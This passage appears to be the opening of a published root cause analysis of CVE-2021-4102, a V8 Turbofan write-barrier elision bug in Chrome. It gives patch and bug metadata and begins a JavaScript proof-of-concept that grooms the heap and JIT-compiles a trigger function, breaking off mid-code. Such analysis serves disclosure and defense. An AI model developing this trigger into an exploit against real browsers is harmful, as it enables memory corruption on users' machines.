 # 0-day Root Cause Analysis Template


# CVE-2021-4102: Chrome incorrect node elision in Turbofan leads to unexpected WriteBarrier elision
Brendon Tiszka, Chrome

## The Basics

**Disclosure or Patch Date:** December 13, 2021

**Product:** Google Chrome

**Advisory:** https://chromereleases.googleblog.com/2021/12/stable-channel-update-for-desktop_13.html

**Affected Versions:** pre 96.0.4664.110

**First Patched Version:** 96.0.4664.110

**Issue/Bug Report:** [crbug.com/1278387](https://crbug.com/1278387)

**Patch CL:** https://chromium-review.googlesource.com/c/v8/v8/+/3329790

**Bug-Introducing CL:** https://codereview.chromium.org/1908093002

**Reporter(s):**  Anonymous

## The Code

**Proof-of-concepts:**

```javascript
let mark_sweep = () => {
    new ArrayBuffer(2**34);
}

let scavenge = () => {
    let ref = new ArrayBuffer(16777216);
    ref = new ArrayBuffer(1);
    ref = new ArrayBuffer(1);
    ref = null;
}

function noop() {}

{
    // Ensure `o` is a non-const signed field
    var o = {'a':5};
    o.a = 5;

    // Move `o` to OldSpace
    mark_sweep();
    var b;
    function opt() {
        var a1;
        for (var i = 0; i < 2; i++) {
            b = i + -0;
            a1 = Math.abs(b);
            for (var j = 0; j < 2; j++) {}
            for (i = 0; i < 2; i++) {}
            o.a = Math.abs(a1);
            noop();
        }
    }
```